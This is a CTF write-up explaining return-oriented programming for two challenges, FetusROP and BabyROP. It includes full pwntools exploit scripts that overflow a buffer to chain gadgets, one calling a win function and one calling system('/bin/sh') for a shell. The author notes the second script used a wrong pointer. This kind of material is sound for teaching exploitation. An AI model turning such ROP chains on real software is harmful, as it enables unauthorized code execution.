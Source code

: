 # ROP challenges

## FetusROP

This challenge aims to teach the basics of ROP. We have
a buffer overflow vuln, and we want to use it to call a `win` function with certain parameters.

If this challenge was given the 90s, then we can probably
just write shellcode and call it a day. (Full disclaimer: I do not know how to write shellcode.) But it is 2021, and NX is enabled; which means we can't execute code we pass in ourselves. The idea of ROP is to bypass this, by using code that already exists in the binary.

A legitimate, desirable call to `win` might look like this in assembly:

```asm
mov RDI, 0xcafe
mov RSI, 0x1337
JMP [address of win]
```
And our goal is to replicate this the best we can with existing code.

### ROP gadgets

ROP centers around finding _gadgets_, small snippets that help us accomplish our task. In our case:

- There is a `pop rdi; ret` at 0x4005f3. If the top value in the stack here is 0xcafe, this replicates the first instruction.
- There is a `pop rsi; pop r15, ret` at 0x4005f1. If the top value in the stack here is 0x1337, this replicates the second instruction.
- The third instruction can be replicated by ending our gadget chain with the address of `win`, more on this later.

### Putting it together

So, how do we kick off the chain of gadgets? Well, to fake a call to a function, you need to just put the address of the function at where the `rip` is on the stack. The new function's stack frame will go above this `rip`. So if we build a stack like this:
```
[address of pop rdi gadget]
[0xcafe]
[address of pop rsi; pop r15 gadget]
[0x1337]
[dummy value]
[address of win]
```

then we can fake 3 function calls, the first 2 being our gadgets, and the third being `win`. Which wins!

Here is exploit code:

```python
from pwn import *
io = remote("challs1.nusgreyhats.org", 5011)

# This is a hand-written ROP chain

padding = b"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmn"

set_rdi = b"\xf3\x05\x40\x00\x00\x00\x00\x00\xfe\xca\x00\x00\x00\x00\x00\x00"

set_rsi_r15 = b"\xf1\x05\x40\x00\x00\x00\x00\x00\x37\x13\x00\x00\x00\x00\x00\x00qrstuvwx"

win = b"\x37\x05\x40\x00\x00\x00\x00\x00"

payload = padding + set_rdi + set_rsi_r15 + win + b"\n"

io.send(payload)

io.interactive()
```

## BabyROP

We use the same ideas. Except now, the function is `system`, and the argument is a pointer to a string containing `/bin/sh`.

> But spacewalker, didn't your team not solve this? Why is this here? Well, the approach actually mostly works; I just had the wrong pointer to the string.

Here is exploit code:
(I was working off a template a teammate gave me; hence the tooling is more sophisticated compared to fetusrop.)
```python
from pwn import *

io = remote("challs1.nusgreyhats.org", 5012)

LOCAL_BIN = "./babyrop"
LIBC = ELF("/home/space/ctf_real/nus_welcome2021/babyrop/libc.so.6")
ELF_LOADED = ELF(LOCAL_BIN) # Extract data from binary
ROP_LOADED = ROP(ELF_LOADED)# Find ROP gadgets

OFFSET = b"A"*40


POP_RDI = (ROP_LOADED.find_gadget(['pop rdi', 'ret']))[0] #Same as ROPgadget --binary vuln | grep "pop rdi"
RET = (ROP_LOADED.find_gadget(['ret']))[0]
SYSTEM_PLT =  ELF_LOADED.plt['system']
BIN_SH = 0x4006a4

log.info("pop rdi; ret  gadget: " + hex(POP_RDI))
log.info("ret gadget: " + hex(RET))
log.info("system plt location: " + hex(SYSTEM_PLT))
log.info("bin sh string:" + hex(BIN_SH))


rop_chain = p64(POP_RDI) + p64(BIN_SH) + p64(RET) + p64(SYSTEM_PLT)

payload = OFFSET + rop_chain

io.sendline(payload)

io.interactive() # This is a shell
```
